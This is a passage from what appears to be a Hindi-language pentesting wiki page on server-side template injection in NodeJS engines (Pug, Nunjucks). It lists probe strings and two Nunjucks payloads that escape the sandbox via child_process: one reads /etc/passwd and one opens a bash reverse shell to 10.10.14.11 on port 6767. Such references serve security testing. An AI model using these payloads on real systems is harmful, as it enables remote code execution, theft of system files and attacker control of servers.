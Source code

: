 **उदाहरण सर्वर साइड रेंडर**
```javascript
var pugjs = require('pug');
home = pugjs.render(injected_page)
```
**अधिक जानकारी**

* [https://licenciaparahackear.github.io/en/posts/bypassing-a-restrictive-js-sandbox/](https://licenciaparahackear.github.io/en/posts/bypassing-a-restrictive-js-sandbox/)

### NUNJUCKS (NodeJS) <a href="#nunjucks" id="nunjucks"></a>

* \{{7\*7\}} = 49
* \{{foo\}} = कोई आउटपुट नहीं
* \#{7\*7} = #{7\*7}
* \{{console.log(1)\}} = त्रुटि
```javascript
{{range.constructor("return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')")()}}
{{range.constructor("return global.process.mainModule.require('child_process').execSync('bash -c \"bash -i >& /dev/tcp/10.10.14.11/6767 0>&1\"')")()}}
```
**अधिक जानकारी**

* [http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine](http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine)

### अन्य NodeJS

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption><p><a href="https://miro.medium.com/v2/resize:fit:640/format:webp/1*J4gQBzN8Gbj0CkgSLLhigQ.jpeg">https://miro.medium.com/v2/resize:fit:640/format:webp/1*J4gQBzN8Gbj0CkgSLLhigQ.jpeg</a></p></figcaption></figure>

